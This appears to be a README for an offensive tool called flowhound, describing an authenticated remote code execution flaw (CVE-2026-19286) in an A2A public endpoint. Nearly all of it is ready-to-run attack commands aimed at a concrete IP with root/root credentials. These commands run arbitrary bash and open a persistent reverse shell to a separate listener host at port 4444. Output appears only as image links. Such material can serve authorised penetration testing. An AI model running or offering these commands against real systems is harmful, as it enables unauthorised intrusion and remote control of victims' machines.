




# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code due to improper enforcement of security restrictions on the A2A public endpoint.

**Impacted Versions:** 1.11.0 through 1.11.1

# Exploit Module

## Default Mode
```bash
flowhound attack --url http://9.60.135.215:7860 --username root --password root --cve CVE-2026-19286
```




## Execute Bash Command
```bash
flowhound attack --url http://9.60.135.215:7860 --username root --password root --cve CVE-2026-19286 --command "date '+%H:%M:%S'"
```




## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://9.60.135.215:7860 --username root --password root --cve CVE-2026-19286 --reverse_shell 9.61.10.227:4444
```

### FlowHound CLI Output


### NCat output

